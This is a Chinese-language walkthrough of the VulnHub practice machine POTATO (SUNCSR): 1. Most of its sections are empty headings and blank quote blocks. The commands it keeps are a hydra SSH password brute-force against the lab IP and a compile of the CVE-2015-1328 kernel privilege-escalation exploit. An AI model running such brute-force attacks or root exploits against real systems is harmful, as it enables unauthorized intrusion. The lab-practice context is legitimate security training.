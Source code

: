 # 原创
：  VulnHub渗透测试实战靶场 - POTATO (SUNCSR): 1

# VulnHub渗透测试实战靶场 - POTATO (SUNCSR): 1

#### VulnHub渗透测试实战靶场 - POTATO（SUNCSR）: 1

## 环境下载

> 



## POTATO (SUNCSR): 1靶机搭建

> 



## 渗透测试

### 信息搜集

> 



> 



> 



### 漏洞挖掘

> 



```
hydra -l potato -P top500.txt -V ssh://192.168.246.139:7120 

```

### getshell

> 



### 提权

> 



> 



```
gcc 37292.c -o CVE-2015-1328

```

> 


